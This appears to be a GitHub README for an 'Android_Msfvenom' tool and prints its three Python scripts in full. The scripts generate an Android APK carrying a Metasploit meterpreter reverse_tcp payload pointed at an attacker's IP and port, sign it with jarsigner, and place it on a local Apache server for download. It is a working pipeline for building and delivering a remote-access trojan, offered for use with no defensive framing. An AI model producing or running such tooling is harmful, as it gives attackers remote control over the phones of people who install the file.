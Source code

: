 ```
 ______  __   __  _____   ______  ______  __  _____       ______  ______  ______  ______  ______  ______    
/\  __ \/\ "-.\ \/\  __-./\  == \/\  __ \/\ \/\  __-.    /\  __ \/\  ___\/\  ___\/\  ___\/\  ___\/\  ___\   
\ \  __ \ \ \-.  \ \ \/\ \ \  __<\ \ \/\ \ \ \ \ \/\ \   \ \  __ \ \ \___\ \ \___\ \  __\\ \___  \ \___  \  
 \ \_\ \_\ \_\\"\_\ \____-\ \_\ \_\ \_____\ \_\ \____-    \ \_\ \_\ \_____\ \_____\ \_____\/\_____\/\_____\ 
  \/_/\/_/\/_/ \/_/\/____/ \/_/ /_/\/_____/\/_/\/____/     \/_/\/_/\/_____/\/_____/\/_____/\/_____/\/_____/ 
```                                                                                                  
# Android_Msfvenom
DESCRIPTION: A faster way to generate and sign android files, for mobile access (Can be hosted on a local apache server)
------------------------------------------------------------------------------------------------------------------------
FILE: [generate_apk.py](https://github.com/scriptedp0ison/Android_Msfvenom/blob/master/generate_apk.py)
USE: This file is used to generate the apk (Android Package Kit) using metasploits [Msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

```python
import os
import time
import android_signer
import apache_server
import subprocess

#def the function to generate the apk
def android_msfvenom():
    get_gen = raw_input('[+] Generate apk using msfvenom: ')
    if get_gen == 'yes' or get_gen == 'y':
        get_name = raw_input('[+] Enter the name of the desired apk file: ')
        try:
            apk_name = get_name
        except Exception:
            print('[+] Failed to set name: {}! Exitting...'.format(apk_name))
            time.sleep(3)
        else:
            print('[+] Name set to: {}'.format(get_name))
            
        #try to change the directory
        login = os.getlogin()
        print('[+] Attempting to change directory to /{}/Desktop'.format(login))

        try:
            os.chdir('/{}/Desktop'.format(login))
        except Exception:
            working_direc = os.getcwd()
            print('[+] Could not change the directory to the desktop, look for file under {}'.format(working_direc))
        else:
            print('[+] Directory set to {}'.format(os.getcwd()))

        #get LHOST and LPORT
        get_host = raw_input('[+] Enter ip address: ')
        get_port = raw_input('[+] Enter connect back port: ')
        print('[+] Generating apk(defaulting to desktop)...')
        try:
            subprocess.call(('msfvenom -p android/meterpreter/reverse_tcp LHOST={} LPORT={} R > {}.apk'.format(get_host, get_port, get_name)), shell=True)
        except Exception:
            print('[+] Failed to generate apk! Exitting...')
            time.sleep(3)
        else:
            print('[+] Apk file successfully created! File located in {}'.format(os.getcwd()))

    elif get_gen == 'no' or get_gen == 'n':
        print('[+] Quittting...')
        exit()
        time.sleep(3)

android_msfvenom()
android_signer.sign_apk()
```

FILE: [android_signer.py](https://github.com/scriptedp0ison/Android_Msfvenom/blob/master/android_signer.py)
USE: This file is used to sign the apk file, that can be created using [generate_apk.py](https://github.com/scriptedp0ison/Android_Msfvenom/blob/master/generate_apk.py), the file is then signed using [jarsigner](http://docs.oracle.com/javase/7/docs/technotes/tools/windows/jarsigner.html), will a validity of [10,000 days](https://www.google.com/webhp?sourceid=chrome-instant&ion=1&espv=2&ie=UTF-8#q=10+000+days+in+years) (27 years)

```python
import os
import time
import apache_server
import subprocess

#def the function to sign the apk
def sign_apk():
    os.chdir(('/{}/Desktop'.format(os.getlogin())))
    subprocess.call('ls -alt', shell=True)
    get_apk = raw_input('[+] Enter the name of the apk file: ')

    try:
        keystore = raw_input('[+] Enter key store name (d for default): ')
        if keystore == 'd':
            keystore = 'my-release-key'
        else:
            keystore = keystore
        subprocess.call(('keytool -genkey -V -keystore {}.keystore -alias alias_name -keyalg RSA -keysize 2048 -validity 10000'.format(keystore)), 
                                                                                                                                        shell=True)
    except Exception:
        print('[+] Could not generate keystore, alias, keyalg, or keysize! Validity set to 0! Exitting...')
        time.sleep(3)
        exit()
    else:
        print('[+] Keystore, Alias, Keyalg, Keysize, and validity generated! Executing Jarsigner... ')

    try:
        subprocess.call(('jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore {}.keystore {} alias_name'.format(keystore, get_apk)), 
                                                                                                            shell=True)
    except Exception:
        print('[+] Could not execute jarsigner command line arguments! Exitting...')
        time.sleep(3)
        exit()
    else:
        print('[+] Successfully executed jarsigner! Checking if {} was successfully signed...'.format(get_apk))

    try:
        subprocess.call(('jarsigner -verify -verbose -certs {}'.format(get_apk)), shell=True)
    except Exception:
        print('[+] Could not verify that the apk {} was signed! You may run into problems later! Exitting...'.format(get_apk))
        time.sleep(3)
        exit()
    else:
        print('[+] Apk file {} was signed successfully! Executing apache server function...'.format(get_apk))
        time.sleep(2)
        server_start()

def server_start():
    apache_server.start_apache()
```

FILE: [apache_server.py](https://github.com/scriptedp0ison/Android_Msfvenom/blob/master/apache_server.py)
USE: This file is used to start the [apache2](https://httpd.apache.org/) server (/etc/init.d/apache2 start), and upload the generated apk file to /var/www/html

```python
import time
import os
import subprocess
from datetime import datetime

#def the function for uploading the apk file to the server
def start_apache():
    print('[+] Starting apache server...')
    time.sleep(3)
    try:
        subprocess.call('service apache2 start', shell=True)
    except Exception:
        print('[+] Could not start apache server! Exitting...')
        time.sleep(3)
        exit()
    else:
        subprocess.call('ls -alt /var/www/html', shell=True)
        print('[+] Apache server started!')
        time.sleep(3)
        server_upload()
        
def server_upload():
    subprocess.call('ls -alt', shell=True)
    file_upload = raw_input('[+] Apache server started! Choose file to upload to server: ')
    try:
        subprocess.call(('mv /{}/Desktop/{} /var/www/html'.format(os.getlogin(), file_upload)), shell=True)
    except Exception:
        print('[+] Could not move /{}/Desktop/{} to /var/www/html! Try moving the file manually! Apache server is up and running! Exitting...')
        time.sleep(3)
        exit()
    else:
        ip = raw_input('[+] Enter current ip address: ')
        print('[+] Ip address set to: {}'.format(ip))
        check_file = raw_input('[+] /{}/Desktop/{} was successfully move to /var/www/html! Open browser to view uploads: '.format(os.getlogin(),
                                                                                                                                    file_upload))
        if check_file == 'yes' or 'y':
            print('[+] Starting browser...')
            time.sleep(3)
            try:
                subprocess.call(('firefox {}'.format(ip)), shell=True)
            except Exception:
                print('Firefox is not installed! Trying Chrome...')
                try:
                    subprocess.call(('chrome {}'.format(ip)), shell=True)
                except Exception:
                    print('Chrome is not installed! Trying iceweasel...')
                    try:
                        subprocess.call(('iceweasel {}'.format(ip)), shell=True)
                    except Exception:
                        system = platform.system()
                        print('[+] Could not determine browser running on your {} machine! Try navigating manually! Exitting...'.format(system))
                        time.sleep(3)
                        exit()
                    else:
                        print('[+] Finished with exit code 0!')
                        exit()
                else:
                    print('[+] Finished with exit code 0!')
                    exit()
            else:
                print('[+] Finished with exit code 0!')
                exit()
        elif check_file == 'no' or check_file == 'n':
            print('[+] Exitting...')
            time.sleep(3)
```


